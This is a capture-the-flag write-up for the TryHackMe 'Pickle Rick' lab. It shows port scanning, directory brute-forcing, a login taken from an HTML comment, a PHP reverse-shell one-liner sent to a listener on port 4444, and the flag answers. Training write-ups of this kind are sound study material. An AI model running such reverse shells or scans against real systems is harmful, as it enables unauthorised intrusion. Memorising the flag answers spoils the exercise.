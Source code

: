 ## Try Hack Me Pickle Rick (Easy)
https://tryhackme.com/room/picklerick

### 🧁nmap🧁
```
nmap -Pn -sV -sT -T4 -A 10.10.164.54 -p- -vv
```

```
Not shown: 65513 closed tcp ports (conn-refused)
PORT      STATE    SERVICE    REASON      VERSION
22/tcp    open     ssh        syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 7b:37:06:24:e5:3e:e9:fb:dd:23:85:e1:9a:b8:ed:9f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDT81rApdbIqrliStEeJd//NKS3V2Ca81KZ9e1omNR6Vu1b7txqq5/482iWYJ+yUcooDvWov4yzRPlftP12Lc3SIAr6cGjlYOLko8KMQQBQc5diWT7jHJhDLoMi7PaqTi5psNR2ePPaW+sz++DLWmDUYNLk9Z8Og+MZ09ugFBftgDOcJLExrJtJ1kGbslB+wjfZxAgHaLfLthdszonmbxCgUPBMhkA5xdSPvQlH7jvvxM7s5ism3XXL0ZeRykRXuxHPppchhy4Tfjym1XnUuKAwoUiXjVqxpnzrEG3fduFXBYDi/kVp5+mN5RBlLU6S6OPpjFzTA6Zv5e9yRluD5Cg9
|   256 56:5b:52:d5:96:17:30:43:a4:44:40:22:fd:cd:4e:a8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiZLP3/I06uORHJxSANOD67D2v7wwz3heBtgMVli4QBmEvXHYm53Lzw6yz5pTl8m01+2LxALaTNL2SagNk00jU=
|   256 19:ad:3f:6d:c4:29:2c:82:97:63:23:b3:93:ba:e4:f5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAID8Z/Gfb4vuSqzbEbUY6ngoyFGJpygvAYaPeuozk29eS
80/tcp    open     http       syn-ack     Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)

```
🚩22 ssh, 80 http open


```
curl 10.10.164.54
```

```
<!DOCTYPE html>
<html lang="en">
<head>
  <title>Rick is sup4r cool</title>
</head>
<body>

  <div class="container">
    <div class="jumbotron"></div>
    <h1>Help Morty!</h1></br>
    <p>Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!</p></br>
    <p>I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is,
    I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!</p></br>
  </div>

  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

</body>
</html>
```

🚩Username: R1ckRul3s

### 🧁gobuster🧁
```
gobuster dir -u http://10.10.164.54 -w common.txt -x html,shtml,php,jsp,zip,gz,tar,bk -t 50 -b 403,404
```

```
/assets               (Status: 301) [Size: 313] [--> http://10.10.164.54/assets/]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
```

![image](https://user-images.githubusercontent.com/6504854/177176350-7fb88066-a6ef-44e8-a349-87eb04b95932.png)

![image](https://user-images.githubusercontent.com/6504854/177176488-1c82a4ae-2ff9-4302-a433-0ba4ae5d6f2e.png)

![image](https://user-images.githubusercontent.com/6504854/177176572-826a6985-115f-4064-a5c7-b254eb12d3fe.png)

### 🧁web-shell🧁
Login Username:R1ckRul3s Pass:Wubbalubbadubdub
use command panel
![image](https://user-images.githubusercontent.com/6504854/177176919-7d3ad620-c63e-4657-b49c-997c7f00143e.png)

```
nc -lnvp 4444
```

```
php -r '$sock=fsockopen("10.10.10.10",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```
![image](https://user-images.githubusercontent.com/6504854/177181156-74abc304-0a75-446c-93a5-ce76a845314f.png)

![image](https://user-images.githubusercontent.com/6504854/177181337-8bfd5398-00a7-434b-9b66-cea9241685bd.png)

### 🧁flag🧁
```
cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```

```
cd /home
ls
rick
ubuntu
cd /home/rick
ls
second ingredients
cat 'second ingredients'
1 jerry tear
```

```
ls /root
3rd.txt
snap
cat /root/3rd.txt
3rd ingredients: fleeb juice
```

😄Happy hacking. Thank you for your time.
